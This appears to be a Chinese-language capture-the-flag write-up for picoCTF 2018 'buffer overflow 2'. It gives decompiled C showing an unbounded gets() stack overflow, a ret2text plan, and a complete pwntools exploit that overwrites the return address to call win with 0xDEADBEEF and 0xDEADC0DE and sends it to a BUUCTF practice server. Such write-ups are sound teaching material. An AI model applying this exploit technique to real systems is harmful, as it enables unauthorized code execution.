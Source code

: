 ```yaml
---
author: 
  name: Zephyr
title: picoctf 2018 buffer overflow 2
date: 2022-4-6 15:20:14
permalink: /pages/2e1547494524d1a7
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# picoctf 2018 buffer overflow 2

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/picoctf_2018_buffer_overflow_2/PicoCTF_2018_buffer_overflow_2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __gid_t v3; // ST1C_4

  setvbuf(_bss_start, 0, 2, 0);
  v3 = getegid();
  setresgid(v3, v3, v3);
  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

vuln函数如下：

```c
int vuln()
{
  char s; // [esp+Ch] [ebp-6Ch]

  gets(&s);
  return puts(&s);
}
```

win函数如下：

```c
char *__cdecl win(int a1, int a2)
{
  char *result; // eax
  char s; // [esp+Ch] [ebp-4Ch]
  FILE *stream; // [esp+4Ch] [ebp-Ch]

  stream = fopen("flag.txt", "r");
  if ( !stream )
  {
    puts(
      "Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.");
    exit(0);
  }
  result = fgets(&s, 64, stream);
  if ( a1 == -559038737 && a2 == -559038242 )
    result = (char *)printf(&s);
  return result;
}
```

## 思路分析

1. 目前信息：

   - `vuln`函数存在任意长度的溢出点
   - `win`函数可打印`flag`
   - No canary found
   - NX enabled
   - No PIE
2. 思路：
   - 32位`ret2text`

## exp

```python
from pwn import *
context(os='linux', arch='i386', log_level='debug')
context.terminal = ['tmux', 'splitw', '-h']
pwnfile = '/root/pwn/buuctf/picoctf_2018_buffer_overflow_2/PicoCTF_2018_buffer_overflow_2'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 25738)
elf = ELF(pwnfile)
padding = 0x6c+4
win_addr = elf.symbols['win']
exit_addr = elf.plt['exit']
a1 = 0xDEADBEEF #补码形式
a2 = 0xDEADC0DE #补码形式
payload = flat(['a'*padding, win_addr, exit_addr, a1, a2])
io.sendlineafter('Please enter your string: \n', payload)
io.recvuntil('\n')
print(io.recv())
```

